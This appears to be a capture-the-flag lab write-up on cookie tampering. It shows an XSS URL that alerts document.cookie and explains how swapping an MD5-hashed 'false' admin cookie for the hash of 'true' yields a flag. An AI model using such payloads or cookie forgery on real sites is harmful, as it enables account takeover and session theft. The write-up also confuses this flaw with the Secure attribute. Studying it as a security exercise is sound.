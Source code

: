 # Secure Cookie Attribute

The secure attribute is an option that can be set by the application server when sending a new cookie to the user within an HTTP Response. The purpose of the secure attribute is to prevent cookies from being observed by unauthorized parties due to the transmission of the cookie in clear text.

## Notes

Checking the cookie we can see that we have:

```bash
HTTP/1.1 200 OK
Server: nginx/1.8.0
Date: Wed, 17 Mar 2021 12:57:30 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/5.3.10-1ubuntu3.19
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Wed, 17-Mar-2021 13:57:25 GMT
```

```bash
http://192.168.1.34/?page=member&id=%3Cscript%3Ealert(document.cookie)%3C/script%3E&Submit=Submit#
```

if we look the Set-Cookie we can note that we get: 

```bash
I_am_admin=68934a3e9455fa72420237eb05902327
```

that mean our value is false checking the hash algorithm md5. so we are not admin.
if we change this value to true (b326b5062b2f0e69046810717534cb09) we get the flag.

```php
<
	?php
	$str = 'false';
	echo md5($str);
?>
```

## Info
[md5](https://md5.gromweb.com/?string=42)<br/>
[owasp cookie](https://owasp.org/www-community/controls/SecureCookieAttribute#)<br/>
[owasp top 10 guide](https://thehackerish.com/owasp-top-10-the-ultimate-guide/)<br/>
